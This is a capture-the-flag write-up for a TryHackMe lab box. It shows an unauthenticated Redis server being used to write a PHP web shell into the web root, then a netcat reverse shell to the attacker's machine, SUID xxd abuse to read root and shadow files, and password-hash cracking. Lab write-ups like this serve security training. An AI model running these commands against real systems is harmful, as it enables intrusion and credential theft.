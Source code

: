 ```yaml
---
layout: post
title: THM RES  writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/res/0.head.png">
<!--more→
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p>Enumerating  ports with a basic NMAP Scan.</p>
<img src="/img/res/1.nmap-scan-1.png">

<p>Only one port shows to be open. Let’s enumerate it further for version,service and os detection. </p>
<img src="/img/res/2.nmap-scan-2.png">

<p>Now let's check all 65k ports with nmap.</p>
<p>We only have two open ports. Port 80 running Apache and port 6379 running Redis db. version 6.0.7</p>
<img src="/img/res/4.nmap-scan-2.png">

<p>Navigating in a web browser to port 80 we find the default Apache web page. Let’s quickly check the source code, start up gobuster. </p>
<img src="/img/res/3.defult-apache-page.png">

<p>Nothing of interest in the default web page’s source code. Let’s get gobuster working on brute forcing sub directories</p>
<img src="/img/res/5.gobuster-start.png">

<p>while we wait on gobuster, let’s do some research on the Redis 6.0.7 db </p>
<img src="/img/res/">

<p>After installing the redis-server on my local machine and enumerating the Redis db I discovered I could connect to the db via shell with no authentication. I also found a possible username vianka by running the info command  </p>
<img src="/img/res/6.Redis-db-enum.png">


<p>Since ssh isn’t open we’re going to need a webshell.</p>
<p> here’s a link to an article about this https://book.hacktricks.xyz/pentesting/6379-pentesting-redis  
<img src="/img/res/7.hacktricks-webshell.png">

<p>I assumed the Apache was serving the site in the default directories due to the default web page I found.In the Redis-cli I changed the dir to /var/www/html and set the db file name to shell.php</p>
<p>config set dir /var/www/html</p>
<p>config set dbfilename shell.php</p>
<p> set test "<php commad here>"</p>

<img src="/img/res/8.redis-commands-test-php.png">

<p>Navigating to [host ip]/redis.php  we can confirm the php is working. Now we need to upload a php reverse shell payload</p>
<img src="/img/res/9.php-test-payload.png">

<p>Let’s setup a listener with netcat on our local machine </p>
<img src="/img/res/10.setup-listner.png">

<p>Now change test from to "<php system get command here>" using the set command </p>
<p> set test ""<?php system($_GET['cmd']);?>"" </p>
<p> now we can issue command injection in the web browser</p>
<p>http://[host]/Redis.php?cmd=nc [attack machine] [port] -e /bin/sh</p>



<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">




<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">

<p>Let’s cat the user.txt file and begin eumurnating for a privilege escalation </p>
<img src="/img/res/17.cat.user.txt.png">



<p>If you run linpease there will find the xxd binary with SUID set. Let’s check GTFObins </p>
<img src="/img/res/19.gtfo.bins.png">

<p>here's how I abused the xxd binary:  </p>
<p>LFILE=/root/root.txt  </p>
<p> usr/bin/xxd "$LFILE" | xxd -r usr/bin/xxd "$LFILE" | xxd -r </p>
<img src="/img/res/18.root.txt.png">

<p>To complete the box we still need the local users password. Let’s abuse the xxd binary so we read the shadow file. Copy the users hash and try and crack it offline</p>
<img src="/img/res/20.user-hash.png">

<p>Here I used a hashcat with the rockyou password list, set the mode to 1800 and hashcat cracked the password in 5 seconds. Now we can complete this box with the user password.   </p>
<img src="/img/res/22.hashcat.png">
